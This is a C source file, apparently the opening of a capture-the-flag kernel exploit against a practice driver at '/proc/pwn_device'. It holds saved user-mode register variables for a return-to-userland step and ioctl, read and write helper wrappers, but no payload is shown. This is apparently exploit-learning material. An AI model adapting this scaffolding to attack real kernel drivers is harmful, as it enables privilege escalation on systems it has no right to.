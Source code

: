 ```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>
#include <stdint.h>
#include <sys/ioctl.h>
#include <sys/mman.h>
#include <sys/stat.h>

#define SET_MAX_BUFFER 32
#define GET_USERLAND_OFFSET 16
#define DEVICE_NAME "/proc/pwn_device"
#define BUFFER_ADDR 0x11000
#define BUFFER_SIZE 0x6000


uint64_t user_cs;
uint64_t user_ss;
uint64_t user_sp;
uint64_t user_rflags;

int control_ioctl(uint64_t cmd, uint64_t* buffer)
{
    int fd = open(DEVICE_NAME, O_RDWR);
    int ioctl_result;
    if (fd < 0)
    {
        printf("ioctl: open failed\n");
        return -1;
    }

    ioctl_result = ioctl(fd, cmd, buffer);
    if (ioctl_result < 0)
    {
        printf("ioctl: ioctl failed\n");
    }
    return 0;
}

int control_read(uint64_t* buffer, unsigned int length)
{
    int fd = open(DEVICE_NAME, O_RDWR);
    if (fd < 0)
    {
        printf("read: open failed\n");
        return -1;
    }
    read(fd, (char*)buffer, length);
    return 0;
}

int control_write(uint64_t* buffer, unsigned int length)
{
    int fd = open(DEVICE_NAME, O_RDWR);
    if (fd < 0)
    {
        printf("write: open failed\n");
        return -1;
    }
    write(fd, (char*)buffer, length);
    return 0;
}

```